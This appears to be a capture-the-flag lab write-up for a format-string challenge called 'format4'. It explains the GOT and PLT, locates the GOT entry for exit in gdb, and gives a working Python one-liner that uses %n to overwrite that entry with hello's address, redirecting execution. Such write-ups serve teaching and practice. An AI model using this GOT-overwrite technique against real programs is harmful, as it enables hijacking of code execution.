 **Format4**

In this challenge we can't just change eip straight from the format string, we have an exit function call right after.

We need to somehow change the exit function field in the .got to the address of hello.


**Got?**
No, not Game of Thrones.
The General Offset Table (GOT for short) is a table of function addresses.

What addresses?
When you use a function from a shared object, for example exit we can't just jump to exit's address because the compiler doesn't know where it is in memory.
That's why when you call a function from a shared object for the first time the Procedure Linkage Table (PLT for short) calls a different function that sets the .got field for exit.

From now on, on every exit call, the plt will jump to whatever address the .got has.


**How Can We Exploit This?**
We need to find where exactly the .got field for exit is located so we can change it's value to hello's address and instead of executing exit we'll simply jump to hello.


**Finding GOT**
If we run the program and try to disassemble exit in gdb, we'll get exit's actual code, which is at (0xb7ec60c0).
We need to try and look at exit before running the program.

![](/photos/pre_exec.png)

This is the plt function that checks .got, let's disassemble it

![](/photos/exit@plt.png)

There it is!
We need to change this address in order to achieve our goal.


**Finding hello's Address**
```diff
$ readelf -s format4 | grep hello
    64: 080484b4    30 FUNC    GLOBAL DEFAULT   14 hello
```

**Writing The Exploit**
We've already done a few of these format string attacks already, so we're pretty experienced.

We need 3 %x to change our address with a %n.
We need to change it to hello's address.

0x080484b4 - exploit length = our value.
After a few tries in gdb I've constructed the following exploit.

```diff
$ python -c "from struct import pack; print pack('<I', 0x8049724) + '%x '*2 + '%134513827x%n'" | ./format4
...
...
...
...
                                                                                                                                                          bffff614
code execution redirected! you win
```

This took a while to run.